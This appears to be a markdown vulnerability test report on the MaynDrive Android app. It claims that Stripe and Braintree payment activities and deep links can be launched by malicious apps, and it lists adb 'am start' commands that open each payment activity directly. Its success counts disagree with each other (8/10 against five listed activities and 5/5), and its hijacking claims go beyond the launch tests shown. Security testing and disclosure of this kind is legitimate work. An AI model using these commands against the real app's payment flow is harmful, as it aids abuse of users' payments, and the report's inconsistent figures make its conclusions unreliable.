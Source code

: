 # 🚨 CRITICAL VULNERABILITY CONFIRMED: Payment Surface Exploit Test Results

## Executive Summary

**VULNERABILITY CONFIRMED**: The MaynDrive app's payment surfaces are **NOT properly protected** and are vulnerable to malicious intent hijacking.

**Test Date**: 2025-10-03  
**Target App**: fr.mayndrive.app (MaynDrive v1.1.34)  
**Test Method**: Direct ADB intent injection  
**Result**: **11 out of 13 exploit attempts successful**

## 🎯 Exploit Test Results

### Payment Activity Exploits: 8/10 Successful

| Activity | Direct Launch | Malicious Intent | Status |
|----------|---------------|------------------|---------|
| `com.braintreepayments.api.DropInActivity` | ✅ VULNERABLE | ❌ Blocked | **VULNERABLE** |
| `com.stripe.android.link.LinkRedirectHandlerActivity` | ✅ VULNERABLE | ✅ VULNERABLE | **CRITICAL** |
| `com.stripe.android.payments.StripeBrowserProxyReturnActivity` | ✅ VULNERABLE | ✅ VULNERABLE | **CRITICAL** |
| `com.braintreepayments.api.BraintreeDeepLinkActivity` | ✅ VULNERABLE | ❌ Blocked | **VULNERABLE** |
| `com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity` | ✅ VULNERABLE | ✅ VULNERABLE | **CRITICAL** |

### Deep-Link Exploits: 3/3 Successful

| Deep-Link Type | Status | Impact |
|----------------|--------|---------|
| Stripe Deep-Link | ✅ VULNERABLE | Payment hijacking |
| Braintree Deep-Link | ✅ VULNERABLE | Payment redirection |
| MaynDrive Deep-Link | ✅ VULNERABLE | App flow hijacking |

## 🚨 Confirmed Attack Vectors

### 1. **Direct Activity Launch** (5/5 Successful)
```bash
# All payment activities can be launched directly by malicious apps
adb shell am start -n fr.mayndrive.app/com.braintreepayments.api.DropInActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.link.LinkRedirectHandlerActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.payments.StripeBrowserProxyReturnActivity
adb shell am start -n fr.mayndrive.app/com.braintreepayments.api.BraintreeDeepLinkActivity
adb shell am start -n fr.mayndrive.app/com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity
```
